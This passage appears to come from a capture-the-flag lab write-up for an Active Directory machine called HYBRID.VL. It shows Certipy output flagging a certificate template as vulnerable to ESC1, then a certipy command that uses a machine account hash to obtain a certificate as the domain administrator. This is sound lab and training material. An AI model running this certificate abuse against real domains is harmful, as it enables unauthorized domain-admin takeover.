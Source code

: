 ```
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
Certificate Templates
  0
    Template Name                       : HybridComputers
    Display Name                        : HybridComputers
    Certificate Authorities             : hybrid-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Domain Computers
                                          HYBRID.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

Requesting a certificate as administrator:
```
certipy req -username MAIL01\$@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -target-ip dc01.hybrid.vl -ca 'hybrid-DC01-CA' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -debug -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'HYBRID.VL' at '192.168.1.1'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:dc01.hybrid.vl[\pipe\cert]
[+] Connected to endpoint: ncacn_np:dc01.hybrid.vl[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator@hybrid.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
